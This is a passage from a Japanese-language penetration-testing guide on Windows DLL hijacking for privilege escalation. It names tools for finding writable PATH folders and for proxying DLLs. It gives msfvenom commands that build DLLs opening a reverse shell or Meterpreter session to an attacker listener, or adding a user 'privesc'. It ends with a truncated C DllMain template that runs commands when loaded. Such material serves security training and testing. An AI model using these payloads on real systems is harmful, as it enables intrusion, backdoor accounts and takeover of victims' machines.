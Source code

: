 ### 自動化ツール

[**Winpeas**](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS)は、システムパス内の任意のフォルダに書き込み権限があるかどうかをチェックします。\
この脆弱性を発見するための他の興味深い自動化ツールには、**PowerSploit functions**があります：_Find-ProcessDLLHijack_、_Find-PathDLLHijack_、_Write-HijackDll_。

### 例

悪用可能なシナリオを見つけた場合、それを成功裏に悪用するために最も重要なことの1つは、**実行ファイルがそれからインポートするすべての関数を少なくともエクスポートするdllを作成すること**です。とにかく、Dllハイジャッキングは、中間インテグリティレベルから高いレベルに[**（UACをバイパスして）昇格する**](../../authentication-credentials-uac-and-efs/#uac)か、[**高いインテグリティからSYSTEMに昇格する**](../#from-high-integrity-to-system)**のに便利**です。有効なdllを作成する方法の例は、このdllハイジャッキングの実行に焦点を当てた研究で見つけることができます：[**https://www.wietzebeukema.nl/blog/hijacking-dlls-in-windows**](https://www.wietzebeukema.nl/blog/hijacking-dlls-in-windows)**。**\
さらに、**次のセクション**では、**テンプレートとして役立つ基本的なdllコード**をいくつか見つけることができます。これらは、**必要のない関数がエクスポートされたdllを作成するために使用できます**。

## **Dllの作成とコンパイル**

### **Dllプロキシ化**

基本的に**Dllプロキシ**は、**ロードされるときに悪意のあるコードを実行**できるDllですが、**実際のライブラリにすべての呼び出しをリレーすることで、本来のライブラリと同様に機能**することもできます。

[**DLLirant**](https://github.com/redteamsocietegenerale/DLLirant)や[**Spartacus**](https://github.com/Accenture/Spartacus)というツールを使用すると、実際に**実行可能ファイルを指定し、プロキシ化したいライブラリを選択**して**プロキシ化されたdllを生成**するか、**Dllを指定**して**プロキシ化されたdllを生成**することができます。

### **Meterpreter**

**revシェルを取得（x64）:**

```bash
msfvenom -p windows/x64/shell/reverse_tcp LHOST=192.169.0.100 LPORT=4444 -f dll -o msf.dll
```

**メータープリンターを取得する（x86）:**

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.169.0.100 LPORT=4444 -f dll -o msf.dll
```

**ユーザーを作成します（x86バージョンはx64バージョンは見当たりませんでした）:**

```
msfvenom -p windows/adduser USER=privesc PASS=Attacker@123 -f dll -o msf.dll
```

### あなた自身

複数のケースで、コンパイルしたDllは、被害者プロセスによってロードされる関数を**複数エクスポートする必要があります**。これらの関数が存在しない場合、**バイナリはそれらをロードできず、攻撃は失敗します**。

```c
// Tested in Win10
// i686-w64-mingw32-g++ dll.c -lws2_32 -o srrstr.dll -shared
#include <windows.h>
BOOL WINAPI DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved){
switch(dwReason){
case DLL_PROCESS_ATTACH:
system("whoami > C:\\users\\username\\whoami.txt");
WinExec("calc.exe", 0); //This doesn't accept redirections like system
break;
case DLL_PROCESS_DETACH:
break;
case DLL_THREAD_ATTACH:
break;
case DLL_THREAD_DETACH:
```